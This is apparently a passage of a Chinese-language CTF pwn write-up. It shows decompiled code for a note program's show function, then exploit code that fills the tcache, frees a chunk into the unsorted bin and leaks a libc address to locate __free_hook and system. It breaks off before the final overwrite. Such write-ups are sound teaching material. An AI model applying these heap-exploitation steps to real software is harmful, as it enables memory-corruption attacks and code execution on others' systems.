 ```bash
}
```

```bash
unsigned __int64 __fastcall show_note(const char *a1)
{
  unsigned int v2; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v2);
  if ( v2 <= 0xF )
  {
    if ( *((_QWORD *)&notes + v2) )
      puts(*((const char **)&notes + v2));
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

没有什么限制，也比较好分析

### 思路

基本上和上面的利用姿势是一致的

### 详细流程

```bash
for i in range(7):
    add(i,0x80,'a')

add(7,0x80,'a')
add(8,0x80,'a')
add(9,0x20,'b')

for i in range(7):
    delete(i) 

delete(8)
show(8)

libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x1ecbe0
__free_hook=libc_base+libc.sym["__free_hook"]
system_addr=libc_base+libc.sym["system"]
leak("libc_base ",libc_base)
```
